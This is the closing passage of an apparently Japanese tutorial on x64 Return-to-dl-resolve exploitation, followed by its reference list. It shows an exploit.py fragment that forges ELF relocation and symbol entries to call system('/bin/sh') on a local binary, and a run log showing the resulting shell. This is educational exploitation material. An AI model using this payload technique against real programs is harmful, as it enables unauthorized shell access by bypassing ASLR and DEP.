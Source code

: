 ```python: exploit.py

payload += b'a' * align_reloc
payload += pack(r_offset) # ELF64_Rela
payload += pack(r_info)
payload += pack(0)
payload += b'a' * align_dynsym
payload += pack(st_name, word_size = '32') # ELF64_Sym
payload += pack(0, word_size = '32')
payload += pack(0)
payload += pack(0)
payload += b'system\x00'
payload += b'/bin/sh\x00\x00'
payload += b'a' * (200 - len(payload))

io.send(payload)
io.clean()
io.interactive()
```
実行するとshellが起動できていることが確認できる。
```
$ python3 exploit.py OFFSET=120
[*] Loaded 16 cached gadgets for './a.out'
[*] Switching to interactive mode
$ echo "exploited!"
exploited!
```

[^1]: ももいろテクノロジー. "x64でROP stager + Return-to-dl-resolveによるASLR+DEP回避をやってみる". https://inaz2.hatenablog.com/entry/2014/07/27/205322 ,(参照 2022年12月26日) 
[^2]: 坂井 弘亮. リンカ・ローダ実践開発テクニック. CQ出版株式会社, 2020
[^3]: https://elixir.bootlin.com/glibc/glibc-2.31/source/elf/dl-runtime.c#L59
[^4]: D3v17. "Ret2dl_resolve x64: Exploiting Dynamic Linking Procedure In x64 ELF Binaries". https://syst3mfailure.io/ret2dl_resolve ,(参照 2023年1月5日)
[^5]:ももいろテクノロジー. "ROP stager + Return-to-dl-resolveによるASLR+DEP回避". https://inaz2.hatenablog.com/entry/2014/07/15/023406 ,(参照 2022年12月26日)

